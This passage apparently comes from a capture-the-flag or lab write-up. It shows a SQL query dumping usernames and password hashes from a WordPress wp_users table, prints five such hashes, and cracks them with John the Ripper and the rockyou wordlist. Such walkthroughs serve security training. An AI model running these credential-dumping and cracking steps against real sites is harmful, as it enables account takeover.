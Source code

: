 ![Pasted image 20250127162347.png](../../IMAGES/Pasted%20image%2020250127162347.png)

We can filter it our by using: `select user_login,user_pass from wp_users;`:

![Pasted image 20250127162418.png](../../IMAGES/Pasted%20image%2020250127162418.png)

We got the hashes and the usernames, we can crack them using john:

```
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```

`john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt`:

![Pasted image 20250127163116.png](../../IMAGES/Pasted%20image%2020250127163116.png)
